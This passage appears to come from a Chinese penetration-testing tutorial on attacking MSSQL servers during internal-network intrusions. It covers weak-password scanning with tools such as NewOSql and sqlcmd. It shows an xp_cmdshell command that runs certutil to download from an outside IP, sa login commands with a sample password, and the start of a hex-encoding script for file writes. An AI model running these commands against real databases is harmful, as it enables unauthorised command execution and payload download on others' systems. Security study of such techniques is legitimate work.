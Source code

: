 微软官方 MSSQL 数据库管理工具 SQL Server Management Studio，输入服务器地址、账号、密码登录：

![1.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-f8b685f36e293e78594c3d0a8fe4101af7387a82.png)

**工具二：开源小工具 NewOSql**（体积小，便于上传）

适用于内网渗透中，扫描 mssql 弱口令，以及利用执行任意数据库语句，项目地址：  
<https://github.com/flight-tom/NewOSql>

![2.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-fd4f2b21b88af904b8749879a4b58e33142aa0e2.png)

比如，新建一个 sql 文件，保存一下内容：

```php
1.  EXEC master.dbo.xp\_cmdshell 'certutil -urlcache f http://49.232.147.136:9999/testosql';  
```

然后执行命令：

```php
1.  oSQL.exe -S 192.168.142.113 -U sa -P admin@123 -o .\\logs.txt -i whoami.sql -d master -e .\\excel.csv
```

在远程服务器能够看到一个链接的信息，如图：

![3.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-908d5649678857bcc9925765b15560141173005c.png)

只要有账号密码信息，就可以利用这个小工具执行任意数据库的语句。

**工具三：微软官方 sqlcmd**（官方软件，需要安装必要依赖）

安装需要：ODBC Driver for SQL Server 和 sqlcmd Utility，下载地址：

[https://docs.microsoft.com/en-us/previous-versions/sql/2014/tools/sqlcmd-utility?view=sql-server-2014&amp;preserve-view=true](https://docs.microsoft.com/en-us/previous-versions/sql/2014/tools/sqlcmd-utility?view=sql-server-2014&preserve-view=true)

<https://docs.microsoft.com/en-us/sql/connect/odbc/download-odbc-driver-for-sql-server?view=sql-server-ver15>

连接命令：

```php
1.  sqlcmd -S 192.168.142.113 -U sa -P admin@123  
```

输入命令之后需要输入 go 执行该命令，如图：

![19.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-e612a5e9bad26bfb14d08d6dee80cf00a339fb03.png)

具体其他的利用方式，后续在实际场景中进行介绍。

2.3 利用 MSSQL 自身功能进行文件操作
-----------------------

文件操作都需要将内容转为 16 进制，脚本参考：

```php
1.  #!/usr/bin/env python  
2.  # coding=utf-8  
3.    
4.  import urllib  
5.  import binascii  
6.  import sys  
7.  import os  
8.    
9.  def str2hex(string):  
10.     hexstr=binascii.b2a\_hex(bytes(string, encoding='utf-8'))  
11.     out = bytes("0x", encoding='utf-8')  
12.     out = out + hexstr  
13.     print(out)  
14.   
```